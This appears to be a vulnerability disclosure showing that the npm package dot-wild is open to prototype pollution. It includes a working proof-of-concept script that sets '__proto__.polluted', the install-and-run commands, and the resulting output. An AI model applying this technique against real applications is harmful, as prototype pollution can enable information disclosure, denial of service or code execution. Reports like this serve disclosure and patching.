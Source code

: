 # Description

`dot-wild` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```javascript
// poc.js
var dot = require("dot-wild")

var obj = {};
console.log("Before: " + {}.polluted);
dot.set(obj, "__proto__.polluted", "Yes, its polluted")
console.log("After: ", {}.polluted);
```
2. Execute the following commands in the terminal:
```bash
npm i dot-wild # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: Yes, its polluted
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
